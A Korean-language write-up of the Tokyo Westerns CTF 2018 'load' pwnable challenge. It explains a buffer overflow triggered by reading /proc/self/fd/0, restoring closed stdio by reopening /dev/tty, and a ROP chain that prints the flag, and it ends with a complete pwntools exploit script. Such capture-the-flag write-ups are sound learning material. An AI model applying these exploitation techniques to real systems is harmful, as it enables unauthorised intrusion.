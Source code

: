 ```yaml
---
title: Tokyo Westerns CTF 2018 - load
date: 2024-07-10 00:00:00 +0900
categories: [Pwnable, CTF]
tags: [pwnable, ctf, file descriptor, /dev/tty]
render_with_liquid: false
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/load'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

## 0x01. Vulnerability

``` c
int __fastcall load_file_4008FD(void *buf, const char *file_name, __off_t offset, size_t size)
{
  int fd; // [rsp+2Ch] [rbp-4h]

  fd = open(file_name, 0);
  if ( fd == -1 )
    return puts("You can't read this file...");
  lseek(fd, offset, 0);
  if ( read(fd, buf, size) > 0 )
    puts("Load file complete!");
  return close(fd);
}
```

`load_file_4008FD()`를 보면 입력받은 파일명을 `open`해서 내용을 `size`만큼 읽은 후 `main()`의 `buf` 변수에 써준다.

이 때 `file_name`을 `/proc/self/fd/0`으로 조작해준다면, 파일의 내용을 읽는 것이 아닌 `stdin`을 읽어서 `buf`에 쓰는 꼴이 된다.

``` c
  char buf[32]; // [rsp+0h] [rbp-30h] BYREF
  size_t size; // [rsp+20h] [rbp-10h]
  __off_t offset; // [rsp+28h] [rbp-8h]
```

`main()`의 `buf`는 `rbp-0x30`에 위치해있고 원하는 만큼 `size`를 입력할 수 있으니 BOF 취약점이 발생한다.

## 0x02. Exploit

BOF 취약점이 있으니 libc leak을 하려고 했는데 PLT가 있는 `puts()`든 `_printf_chk()`든 이상하게 출력이 안됐다.

그래서 디버깅을 해보니 `puts()`의 리턴 값이 `-1`인 것을 확인했고, 뭔가 에러가 발생했음을 알았다.

언제 이런 에러가 발생하는지 찾아보다가 `stdout`에 문제가 생기면 그럴 수 있다는 정보를 찾아서 확인해보니...

``` c
int close_4008D8()
{
  close(0);
  close(1);
  return close(2);
}
```

`load_file_4008FD()`이 끝난 후 `main()`이 종료되기 전에 `close_4008D8()`라는 함수가 호출되는데, 여기에서 `stdout`을 close해버린다.

그래서 구글링을 열심히 해보니 `/dev/tty`를 `open`하면 다시 `stdout`을 살릴 수 있다는 것을 알았다.

문제는 `/dev/tty`를 어디에 넣어놓고 `open()`에 전달할 것이냐인데, BOF 취약점을 트리거하기 위해 `file_name`에 `/proc/self/fd/0`을 넣는 과정에서 `\x00`을 하나 추가하고 `/dev/tty`를 전달하면 될 것 같았다.

``` python
    # open("/dev/tty", O_RDWR | O_CREAT)
    payload_open = p64(ppr)
    payload_open += p64(66)                     # pop rsi
    payload_open += p64(0)                      # pop r15
    payload_open += p64(pr)
    payload_open += p64(bp['file_name'] + 0x10) # pop rdi
    payload_open += p64(elf.plt['open'])
```

위 payload를 ROP chain에 3번 넣어서 `/proc/self/fd/`에 순서대로 0, 1, 2가 생성되는 것을 확인했다.

이렇게 leak을 하는데에는 성공했으나 `stdin`을 살렸음에도 다음 playoad를 전송하는 것에 실패했다.

그래서 고민이 됐던게 leak을 해봤자 다음 입력을 줄 수가 없으므로 한번에 입력을 줘서 flag를 `open` -> `read` -> `write`를 다 시켜야하는데 `rdx` 관련 가젯이 없다.

그러면 `read`의 세 번째 인자인 `size` 컨트롤이 불가능하기 때문에 `open("flag", 'r');`을 한 이후의 `rdx` 값이 내용을 읽어오기에 충분히 큰 값이기를 기도해야하는데...

실제로 확인해보니 `open`이 종료되고 난 `rdx` 값이 0이었다.

어떻게 출력을 할지 한참을 고민하다가...

``` c
  load_file_4008FD(buf, byte_601040, offset, size);
```

마침 동일한 로직을 수행하는 함수가 코드 영역에 있었다!

-   `rdi` : pop rdi; ret; 가젯 활용, free space인 byte_601040
-   `rsi` : pop rsi; pop r15; ret; 가젯 활용, BOF 트리거 할 때 넣은 "flag" 위치
-   `rdx` : open 종료 후 0
-   `rcx` : open 종료 후 0x00007ffff7e9e53b (충분히 큰 값)

이런식으로 레지스터를 컨트롤해주면 `flag`를 출력할 수 있었다.

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "load"
LIBRARY = "libc.so.6"

pr = 0x0000000000400a73
ppr = 0x0000000000400a71
bp = {
    'read_of_load_file' : 0x400966,
    'main' : 0x400817,
    'end_of_main' : 0x4008A8,
    'close' : 0x4008D8,
    'read_str' : 0x400986,
    'file_name' : 0x601040,
    'load_file' : 0x4008FD,
}

gs = f'''
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def send_msg(s, msg):
    print(s.recvuntil(b": "))
    s.sendline(msg.encode())

def main():
    if(len(sys.argv) > 1):
        s = process(BINARY)
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    send_msg(s, "/proc/self/fd/0\x00/dev/tty\x00flag\x00")
    send_msg(s, "0")
    send_msg(s, "1024")

    payload = b"A" * 0x30
    payload += b"B" * 8

    # open("/dev/tty", O_RDWR | O_CREAT)
    payload_open = p64(ppr)
    payload_open += p64(66)                     # pop rsi
    payload_open += p64(0)                      # pop r15
    payload_open += p64(pr)
    payload_open += p64(bp['file_name'] + 0x10) # pop rdi
    payload_open += p64(elf.plt['open'])

    # open 3 times -> open 0, 1, 2
    payload += payload_open * 3

    # load_file_4008FD(byte_601040, "flag", offset, size)
    payload += p64(ppr)
    payload += p64(bp['file_name'] + 0x19)      # pop rsi
    payload += p64(0)                           # pop r15
    payload += p64(pr)
    payload += p64(bp['file_name'])             # pop rdi
    payload += p64(bp['load_file'])

    # puts(byte_601040)
    payload += p64(pr)
    payload += p64(bp['file_name'])             # pop rdi
    payload += p64(elf.plt['puts'])

    log.info(f"payload length : {hex(len(payload))}")
    s.sendline(payload)
    pause()
    print(s.recv().split(b"\n")[2])

if __name__=='__main__':
    main()
```
